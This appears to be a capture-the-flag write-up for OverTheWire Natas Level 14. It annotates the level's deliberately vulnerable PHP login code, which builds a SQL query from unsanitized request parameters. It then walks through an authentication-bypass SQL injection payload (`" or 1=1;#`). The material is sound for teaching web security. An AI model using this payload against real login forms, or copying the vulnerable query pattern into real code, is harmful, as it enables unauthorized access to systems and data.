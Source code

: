 # Level 14
This level deals with  SQL Injection Vulnerability

## Quest
We are presented with a simple sign in form
![Level 14 Image](./images/Level14.png)

Backend code for the page is below, Lets comment it
```php
<?
if(array_key_exists("username", $_REQUEST)) {  // Checks if username parameter exists in request
    $link = mysql_connect('localhost', 'natas14', '<censored>'); // Connect to db
    mysql_select_db('natas14', $link);
    
    // A query is run based on user input, no sanitization performed. Bad Practise !!
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {  // if 'debug' parameter is set, output query
        echo "Executing query: $query<br>";
    }

    if(mysql_num_rows(mysql_query($query, $link)) > 0) { // If our query return any rows, then success
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {  // Else, Access Denied
            echo "Access denied!<br>";
    }
    mysql_close($link);
} else {
?>
```

## Solution
Before going into the solution, lets look at the request that is sent when we log in. (_captured in Burp_)
![Level 14 Solution](./images/Level14_solution.png)

Let look at this line :
```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
```

If we enter both username and password as `admin`, our resulting query becomes:
```sql
SELECT * from users where username="admin" and password = "admin";
```
If above query produces any output (rows), then we log in, otherwise we get access denied.

Now, in order to do SQL injection we enter a basic <span id=green>payload -></span> `john" or 1=1;#`
Our query becomes
```sql
SELECT * from users where username="john" or 1=1;#" and password="";
```
Note: Above query is now reduced to `SELECT * from users where username="john" or 1=1;`, as `#` is a comment in mysql and anything after it is ignored.<br/>This will always produce an output as long as there are rows in `users` table because `1=1` is always true.

From Backend code:
```php
if(mysql_num_rows(mysql_query($query, $link)) > 0) { // If we found any table, then success
            echo "Successful login! The password for natas15 is <censored><br>";
    }
```
As now our query will produce an output, password for next Level will be revealed.

Below see this in action, our request/response in Burp along with our payload. (_it has been URL encoded_)
![Level14.1_solution](./images/Level14.1_solution.png)

<br/>

[<< Back](https://grey-fish.github.io/Natas/index.html)
